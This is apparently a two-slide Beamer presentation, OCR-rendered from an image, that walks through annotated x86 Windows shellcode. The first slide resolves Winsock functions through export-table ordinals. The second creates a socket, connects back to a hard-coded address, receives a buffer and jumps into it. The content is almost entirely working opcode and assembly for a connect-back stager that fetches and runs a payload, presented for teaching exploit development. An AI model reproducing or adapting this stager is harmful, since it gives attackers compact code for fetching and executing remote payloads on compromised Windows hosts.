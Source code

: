 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Resolve symbols using static ordinals}

\footnotesize{
    \begin{verbatim}
8B6A08     mov ebp,[edx+0x8]     ; ebp = LdrModule->BaseAddr
8B453C     mov eax,[ebp+0x3c]    ; eax = DosHdr->e_lfanew
8B4C0578   mov ecx,[ebp+eax+0x78]; ecx = Export Directory
8B4C0D1C   mov ecx,[ebp+ecx+0x1c]; ecx = Address Table Rva
01E9       add ecx,ebp           ; ecx += ws2base
8B4158     mov eax,[ecx+0x58]    ; eax = socket rva
01E8       add eax,ebp           ; eax += ws2base
8B713C     mov esi,[ecx+0x3c]    ; esi = recv rva
01EE       add esi,ebp           ; esi += ws2base
03690C     add ebp,[ecx+0xc]     ; ebp += connect rva
    \end{verbatim}
}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Create the socket, connect back, recv, and jump}

\footnotesize{
    \begin{verbatim}
; Use chained call-stacks to save space
; connect returns to recv returns to buffer (fd in edi)
53         push ebx              ; push 0
6A01       push byte +0x1        ; push SOCK_STREAM
6A02       push byte +0x2        ; push AF_INET
FFD0       call eax              ; call socket
97         xchg eax,edi          ; edi = fd
687F000001 push dword 0x100007f  ; push sockaddr_in
68020010E1 push dword 0xe1100002
89E1       mov ecx,esp           ; ecx = &sockaddr_in
53         push ebx              ; push flags (0)
B70C       mov bh,0xc            ; ebx = 0x0c00
53         push ebx              ; push length (0xc00)
51         push ecx              ; push buffer
57         push edi              ; push fd
51         push ecx              ; push buffer
6A10       push byte +0x10       ; push addrlen (16)
51         push ecx              ; push &sockaddr_in
57         push edi              ; push fd
56         push esi              ; push recv
FFE5       jmp ebp               ; call connect
\end{verbatim}
}
\end{frame}
\end{document}

